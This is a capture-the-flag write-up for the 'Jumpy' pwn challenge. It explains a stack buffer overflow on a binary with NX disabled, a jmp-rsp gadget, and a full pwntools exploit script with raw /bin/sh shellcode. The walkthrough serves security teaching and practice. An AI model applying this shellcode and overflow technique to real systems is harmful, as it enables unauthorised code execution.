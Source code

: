 # Jumpy [Pwn]

Attached file:[here](datas/jumpy)

Output of checksec

```sh
$ checksec jumpy
```

![Checksec](datas/checkseckjumpy.png)

The NX is disabled so we can run code on the stack.

![Exec](datas/ohjumpy.png)

Jumpy C code obtained by reverse engineering with ghidra.

![Cdecompile](datas/CJumpy.png)

In the binary, there is no system function and no function to read the flag. As the stack is executable, we can push shellcode on it and execute it.

First, we need to control the RIP.

I have placed a breakpoint on the ret of the main function.

![disasmain](datas/disasmain.png)

With 0x38 we can reach the RIP.

For a test, I send this load: "A "*0x38 + "BBBB"

![jumpRIP](datas/jumpRIP.png)

The RIP is well reached.

We can now execute our shellcode on the stack.

payload = "A "*0x38 + RSP_addr + shellcode

We will push the shellcode on the RSP and call the RSP address in the RIP to be able to execute the shellcode.

We don't have the address of the RSP but by doing a little research in the binary we have an instruction that makes a jump on the RSP, that will do the trick.

![jmprsp](datas/jmprsp.png)

With the address of this instruction in the RIP, we can make a jump into the RSP and execute what is inside.


payload = "A"*0x38 + p64(0x00401142) + shellcode

Exploit:

```python
from pwn import *

sh = process("./jumpy")
#sh = remote("34.65.228.239",1337)
shellcode = b"\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
payload = b"A"*0x38 + p64(0x00401142) + shellcode

print(sh.recv().decode())
sh.sendline(payload)
sh.interactive()
```
Result:

![Jumpyflag](datas/flag.png)
